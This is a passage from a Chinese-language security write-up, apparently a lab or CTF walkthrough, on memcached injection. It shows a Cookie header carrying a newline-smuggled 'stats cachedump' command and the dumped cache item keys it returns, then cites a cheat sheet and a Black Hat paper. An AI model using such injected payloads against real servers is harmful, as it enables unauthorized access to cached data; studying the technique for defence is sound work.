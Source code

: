 返回为

MemcacheError:ERROR ITEM key [1 b; 1441762228 s] ITEM 12345 [20 b; 1441494967 s] END

当我遍历到class 3的时候:

Cookie: %0astats cachedump 3 1000    

```
MemcacheError:ERROR 
ITEM 3f063d8659f0f08c4454554294aca59bbe42cc6e11db23eb69f5a1c0a9486aa1 [19 b; 1442016274 s] 
ITEM 0e9d0aecea498b15ee63d38dd4664dcfc75be0846ec4baee931b45a04462eeab [20 b; 1441494967 s] 
ITEM 09cf27be606344f29bda74bd7c035e6d862c95025a2a6bb1785c8883ae65b18a [16 b; 1441494967 s] 
ITEM b33542ed3c8bf5c2c346e26aac28a10055fa6a50c4948873810798e9f4cfca98 [20 b; 1441494967 s] 
ITEM e391306f6481940ab3c796eb1253435b06e9a9357227de734b0ec3f58bd14d7f [19 b; 1442011213 s] 
ITEM c706b288065ad5c29153d8773c3e3be6e8a07408cdf4e0e40e97917896e43839 [19 b; 1442012877 s] 
ITEM a5e754e6e804bf7e49f8096242a6566cc337b06aa6c2dafda3f86edccf8cb4b3 [19 b; 1442011191 s] 
ITEM edf938c33d05ff9f8696415d5ef817014a5cc2906abe24576fdafe8ae58dde48 [19 b; 1442010879 s] 
ITEM 5f7d07e310e9fad574d0975741a9c05d0d75d7157ce9bb9546b7f58d940cee7a [19 b; 1442006048 s] 
ITEM 3d1a32800a501fe7387287ba4631ae9318206ef96083a29f35fd1ef42f7a85c5 [19 b; 1441998916 s]
```

终于注入到我们所需要的class中去。

<br>

**0x05 参考**

Memcache cheat sheet: [http://lzone.de/cheat-sheet/memcached](http://lzone.de/cheat-sheet/memcached)

Memcached Injection: [https://www.blackhat.com/docs/us-14/materials/us-14-Novikov-The-New-Page-Of-Injections-Book-Memcached-Injections-WP.pdf](https://www.blackhat.com/docs/us-14/materials/us-14-Novikov-The-New-Page-Of-Injections-Book-Memcached-Injections-WP.pdf)
